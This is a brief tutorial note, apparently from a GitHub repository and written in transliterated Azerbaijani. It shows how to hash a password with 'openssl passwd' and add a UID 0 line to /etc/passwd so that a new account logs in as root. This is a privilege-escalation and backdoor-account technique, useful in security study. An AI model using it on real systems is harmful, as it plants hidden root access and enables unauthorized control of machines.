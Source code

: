 ## EGER LINUXDA HESAB ELAVE EDIB HASSHLANMISH VERSIYA ILE YARATMAQ ISTEYIRIKSE 


 # openssl passwd -1 -salt [salt]   


  # SALT YENI NESE QATMAQ HASHLANIR
   # SALTIN YERINE [YENI MORTEZEDEKI] ISTEDIYIMIZ AD VERE BILERIK
    # !!  BIZ YAZARKEN MORTERIZE QOYMURUQ

## DAHA SONRA BIZ 
 ## nano /etc/passwd
 BUNU ETDIKDEN SONRA USERNAME YAZIRIQ DAHA SONRA HASHLANMISH VERSIYA VE DAHA SONRA ("0 0 LAR DEYERLERI EHATE EDIR) YENI ROOT KIMI " ) ICRA OLUNACAQ 

 ## username:passwordhash:0:0:root:/root:/bin/bash

  ## BUNU ETDIKDEN SONRA HESABA ARTIQ DAXIL OLARKEN ROOT KIMI DAXIL OLACAYIQ

